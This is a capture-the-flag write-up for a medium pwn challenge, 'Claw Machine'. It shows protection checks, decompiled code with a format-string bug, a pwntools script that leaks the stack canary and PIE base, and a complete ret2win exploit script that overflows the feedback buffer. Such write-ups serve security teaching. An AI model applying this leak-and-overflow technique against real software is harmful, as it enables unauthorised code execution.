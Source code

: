 
# Synopsis

Claw Machine is an Medium difficulty challenge that features bypassing canaries and dealing with PIE to call a function that reads the flag (ret2win).

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	
Full RELRO   Canary found      NX enabled   PIE enabled          No RPATH   RW-RUNPATH   90 Symbols	  No
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅      | Disables **code execution** on stack |
| **PIE**    | ✅       | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

Running `file`, we also notice the the binary is `64-bit` and `dynamically linked`.

```console
➜  claw_machine: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0dcdc3f9bead6c2a31478a42c3a9e13e478a230f, not stripped
```

The interface of the program looks like this:

```console
➜  ./claw_machine
▛▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▜
▌▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▐
▌▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▐
█            |             █
█            |             █
█            |             █
█         /▔▔ ▔▔\          █
█        |       |         █
█         \     /          █
█                          █
█                          █
█        __________        █
█        |flag.txt|        █
████████████████████████████

Press '1' to move left, '2' to move right, '9' to grab the prize!

>>
```
After attempting to grab the prize no matter how much you move you will break the box and be offered to rate the game:

```console
▛▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▜
▌▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▐
▌▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▐
█            |             █
█            |             █
█            |             █
█            |             █
█            |             █
█            |             █
█         /▔▔ ▔▔\          █
█        |       |         █
█         \     /          █
█        |flag.txt|        █
████████████████████████████

[-] You broke the box and couldn't get the prize!

Would you like to rate our game? (y/n)

>> y

Enter your name: TESTNAME

Thank you for giving feedback TESTNAME

Leave your feedback here: FEEDTEST

Thank you for playing!
```
Upon agreeing to rate the game you can insert your name and your feedback.

### Disassembly ⛏️

Taking a look at the psuedocode generated by ida for the function that handles feedback (fb) we can first identify a string format vuln, perhaps allowing us to leak PIE or Canaries?

```C
unsigned __int64 fb()
{
  __int16 buf; // [rsp+Dh] [rbp-73h] BYREF
  char v2; // [rsp+Fh] [rbp-71h]
  char format[8]; // [rsp+10h] [rbp-70h] BYREF
  __int64 v4; // [rsp+18h] [rbp-68h]
  char v5; // [rsp+20h] [rbp-60h]
  __int64 v6[9]; // [rsp+30h] [rbp-50h] BYREF
  unsigned __int64 v7; // [rsp+78h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  buf = 0;
  v2 = 0;
  *(_QWORD *)format = 0LL;
  v4 = 0LL;
  v5 = 0;
  memset(v6, 0, 64);
  printf("Would you like to rate our game? (y/n)\n\n>> ");
  read(0, &buf, 2uLL);
  if ( (_BYTE)buf == 121 || (_BYTE)buf == 89 )
  {
    printf("\nEnter your name: ");
    read(0, format, 0x10uLL);
    printf("\nThank you for giving feedback ");
    printf(format);
    printf("\nLeave your feedback here: ");
    read(0, v6, 0x5EuLL);
  }
  puts("\nThank you for playing!\n");
  return __readfsqword(0x28u) ^ v7;
}
```
Lets attempt to overflow the buffer:

```console
Enter your name: no

Thank you for giving feedback no

Leave your feedback here: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Thank you for playing!

*** stack smashing detected ***: <unknown> terminated
zsh: IOT instruction (core dumped)  ./claw_machine
```
Shit. Canaries :)

Also did some testing and found out that you have 72 bytes before hitting the canary :)

### Debugging 

Ok, time to go hunt for some canaries,
In linux canaries end in 00. This makes them pretty easy to spot. to figure out which values correspond to a canary i used a quick python script:
```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./claw_machine', checksec=False)

# Let's fuzz x values
for i in range(300):
    try:
        if True:
            # Create process (level used to reduce noise)
            p = process(level='error')
            p.recvuntil(b">> ")
            p.sendline(b'9')
            p.recvuntil(b">> ")
            p.sendline(b'y')
            p.recvuntil(b': ')
            p.sendline('%{}$p'.format(i).encode())
            p.recvline()
            result = p.recvline().decode()
            if result:
                print(str(i) + ': ' + str(result[result.index("k",20)+1:]).strip()) #i know this is made badly... Leave me alone.
    except EOFError:
        pass
#  Canaries will look like this:
#  0x5020c933db88ab00
#  0x459415b8e048d00
#  makes em really easy to see
```
after running this script a couple times i managed to not only find that a canary sits on the 21st value on the stack (%21$p) but also that we have the address of Main+53 at the 23rd value on the stack (%23$p)
the address of main+53 is on the stack due because its the return value :)

Since we know that the return value sits 2 spots after the canary on the stack we know that our payload should look something like this:

(72 bytes) + (canary) + (8 bytes) + (read_flag)

# Solution

```python
from pwn import *
elf = context.binary = ELF('./claw_machine', checksec=False)
#context.terminal = ["alacritty",'-e','zsh','-c']
#p = gdb.debug("./claw_machine",gdbscript='''
    #break fb
    #continue
    #''')
#p = process(level='error')
#p = remote("IP", "PORT")
p.recvuntil(b">> ")
p.sendline(b'9')
p.recvuntil(b">> ")
p.sendline(b'y')
p.recvuntil(b': ')
p.sendline('%21$p %23$p'.encode())
p.recvline()
x = p.recvline().decode()
canary = x[x.index("k",20)+2:]
elf.address = eval(canary.split(" ")[1].strip())-0x1552
p.recvline()
payload = flat(
    b'A'*72,
    eval(canary.split(" ")[0]),
    b"A"*8,
    elf.symbols.read_flag
)
p.send(payload)
p.recvline()
p.recvline()
p.recvline()
p.interactive()

```

